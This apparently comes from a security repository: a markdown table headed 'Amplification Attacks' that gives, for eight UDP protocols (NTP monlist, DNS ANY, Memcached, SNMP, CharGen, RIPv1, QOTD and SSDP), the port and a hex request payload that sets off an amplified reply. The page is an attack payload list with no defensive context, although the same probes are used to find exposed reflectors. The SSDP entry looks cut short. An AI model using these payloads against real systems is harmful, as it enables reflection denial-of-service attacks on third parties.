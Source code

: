 # Amplification Attacks


|Protocol| Description |UDP Port | Request Payload HEX| 
|---| --- | ---| --- | 
|**NTP**| monlist command | 123 |`1700032a000000000000000000000000` | 
|**DNS**|  ANY google.com query| 53 |`17ea0100000100000000000106676f6f676c6503636f6d0000ff00010000290200000000000000` | 
|**Memcached**|  stat items |11211 | `5a4d0000000100007374617473206974` | 
|**SNMP**|  system description field using community string public | 161 |`302902010004067075626c6963a01c0204565adc5d020100020100300e300c06082b060102010101000500` |
|**CharGen**| one byte data "a" | 19 |`610a` |
|**RIPv1** | malformed request | 520 |`01010000000000000000000000000000`|
|**QOTD**| trigger a quote | 17 | `00`|
|**SSDP**| trigger response from UPnP SSDP service | 1900 |`4d2d534541524348202a20485454502f312e310a486f73743a3233392e3235352e3235352e3235303a313930300a53543a75706e703a726f6f746465766963650a4d616e3a22737364703a646973636f766572220a4d583a33`|
